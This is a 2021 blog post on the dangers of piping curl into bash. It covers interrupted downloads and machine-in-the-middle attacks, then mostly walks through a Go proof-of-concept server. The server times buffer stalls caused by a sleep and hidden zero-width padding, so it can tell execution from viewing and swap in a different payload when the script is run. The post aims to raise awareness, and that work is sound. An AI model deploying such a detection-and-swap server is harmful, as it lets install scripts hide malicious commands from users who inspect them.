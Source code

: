 ```yaml
---
title: "The Dangers of curl | bash"
date: 2021-01-12T12:23:11Z
draft: false
toc: true
images:
tags:
  - golang
  - curl
  - bash
  - curlbash
  - cybersecurity
  - linux
---
```


I'm sure at some point or another we've all seen a software project that asks
you to installing it with a command like `curl https://install.example.com |
sudo bash`.

A few examples are [rustup](https://rustup.rs/),
[zerotier](https://github.com/zerotier/install.zerotier.com), and
[pyenv](https://github.com/pyenv/pyenv-installer).

_But why is it dangerous_ you ask? _Surely if [people on the internet advokate
the use of it](https://gist.github.com/btm/6700524) then it must fine?_ Well, it
depends what your definition of _fine_ is.

There are a few different issues with using `curl $URL | bash` that I want to
look at, two briefly and one in more detail.

From here on out I'll be using:

* `curl | bash` to refer to a command that downloads a file and sents the
  content via stdout to a shell (and example of a command like this being `curl
  https://install.example.com/ | sudo bash`)
* `$URL` to refer to the URL of the resource being being downloaded (in the
  previous example this would be `https://install.example.com/`)

## Possible Issues Scenarios

### 1. Interrupted Connections

When you `curl $URL | bash`, bash starts executing the script before the whole
of it was been downloaded. If you were to lose your connection to the server
before the script has finished downloading you may end up with half the script
having been executed and half of it not. This is a non-ideal situation that
could potentially leave your system in an unusable state (depending on the
script you were running).

### 2. Machine in the Middle (MitM)

A Machine in the Middle attack is when an attacker is in the middle on your
communication. This would allow them to modify the script as it is being
downloaded allowing them to run malicious commands on your machine.

A few ways to migigate this are by:

1. Using TLS. Curl will throw an error if a website has invalid TLS
   certificates. This means that if the script you are piping into bash uses
   https then you know there isn't a MitM (unless the MitM has an TLS cert for
   the domain in question that is signed by a CA you trust, in which case you
   have a bigger issue). You can run `curl https://self-signed.badssl.com/` as
   an example of how curl handles invalid TLS certificates.
2. Viewing the script in your browser first. If you navigate to `$URL` in your
   web browser first you can inspect the script to make sure that you trust it's
   content. This would be a valid solution, but turns out to not be effective.
   I'll discuss why now.

### 3. curl | bash Detection

It turns out that because of how unix pipelines work, a webserver can detect if
you are piping the output of `curl` or `wget` into an shell like `bash`.

I tweeted a proof of concept for this earlier.

{{< tweet 1326239169711108099 >}}

This attack is the main focus of this blog post an is inspired by
[https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/](https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/)
which explains part of why this works but does not provide a proof of concept.
This was posted in 2016 and I haven't been able to find much else out this.

As mentioned in section 1, if the content being downloaded is over a certain
size then bash will start exectuing commands before the whole file has been
download. Curl will fill the a buffer, bash will read and execute the commands,
curl will fetch more data from the server and fill the buffer again. This whole
process repeats until the whole script has been downloaded and executed by bash.

If bash is doing something time consuming (e.g. executing a `sleep` command)
then it will take longer before it empties the buffer and curl requests more of
the script. If the script is just being displayed (if you just `curl $URL` or if
you open `$URL` in a web browser) then there will be no delay as the `sleep`
command isn't being executed. We can detect this time difference on the server
the script is being download from.

I am going to quickly walk you through the Proof of Concept (PoC) I made in go.

Firstly I setup a simple go program that acts as an http server. It will listen
on port `:8080` and send requests to a function called `handler` (which I am
going to show you in the next sep).

```go
package main

import (
  "fmt"
  "net/http"
  "strings"
  "time"
)

func main() {
  http.HandleFunc("/", handler)
  http.ListenAndServe(":8080", nil)
}
```

The handler function is relativly simple.

Firstly we create a payload that we will use to detect if the code being
download is being executed or just displayed/stored. This example sends a script
that outputs _Hello World!_, sleeps for 1 second and has a comment. This command
is then followed by the byte string `\xe2\x80\x8b` 1048576 times. This byte
string is a zero width character meaning that it won't be visible to the user if
the script is being sent to firefox or stdout unless they open it in something
like a hex editor.

This chars at the end are so long that they will fill the buffer more than once.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte("echo Hello World!\nsleep 1\n# A comment" + strings.Repeat("\xe2\x80\x8b", 1024*1024) + "\n")
}
```
We then define a malicious payload to send if the script is being executed and a
harmless payload to send if it is not.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")
}
```

We can now set the response content type and status code, and send the detection
payload. However we won't end the request but instead start a timer. `res.Write`
is blocking meaning that the next line won't be executed until the whole of the
`detect_payload` has been requested by the client, and as it is longer than the
buffer if the code is being executed then bash will sleep before the rest of the
detect payload is requested. This means that when we measure the time that it
took for `res.Write` to run we can see if bash was executing the payload or not.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")

  res.Header().Set("Content-Type", "text/plain; charset=UTF-8")
  res.WriteHeader(200)
  started_detect := time.Now()
  res.Write(detect_payload)
  ended_detect := time.Now()
  elapsed := ended_detect.Sub(started_detect)
}
```

Now we simply see if we waited around for at least a second (the lenght of the
sleep) and if we did send the malicous payload.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")

  res.Header().Set("Content-Type", "text/plain; charset=UTF-8")
  res.WriteHeader(200)
  started_detect := time.Now()
  res.Write(detect_payload)
  ended_detect := time.Now()
  elapsed := ended_detect.Sub(started_detect)
  if elapsed.Seconds() > 1 {
    fmt.Println("curl|bash detected. response time: ", elapsed)
    res.Write(malicious_payload)
  } else {
    fmt.Println("non curl|bash. response time: ", elapsed)
    res.Write(harmless_payload)
  }
}
```

This is a very simple PoC but you could easily make something more effective and
discreate. If the user is `curl | bash`-ing a large install script that is
larger than the buffer and has elements that take a while to execute, then you
wouldn't need any `sleep` commands or large amounts of hidden whitespace to make
this work.

## Conclusion

I'm not going to make a comment on if you should use `curl | bash` or not, that
is up to you and your threat model. However I think it is important that people
are aware that this sort of attack is in fact possible.
